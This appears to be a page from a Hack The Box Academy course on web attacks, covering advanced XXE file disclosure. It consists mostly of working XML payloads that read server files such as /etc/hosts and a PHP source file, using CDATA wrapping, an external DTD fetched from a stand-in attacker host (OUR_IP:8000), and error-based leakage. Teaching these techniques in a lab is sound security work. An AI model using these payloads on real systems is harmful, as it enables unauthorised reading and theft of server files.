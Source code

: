 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1206
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1206
// Section Title: Advanced File Disclosure
// Page Title: Hack The Box - Academy
// Page Number: 15
-->

# Advanced File Disclosure

**Module Name:** Web Attacks **Page Number:** 15

#### 

#### WEB ATTACKS

# Advanced File Disclosure

## Advanced Exfiltration with CDATA

``` xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

``` xml
<!ENTITY joined "%begin;%file;%end;">
```

``` shell-session
[!bash!]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
[!bash!]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

``` xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error Based XXE

``` xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

``` xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

# 

# 

#### Questions

####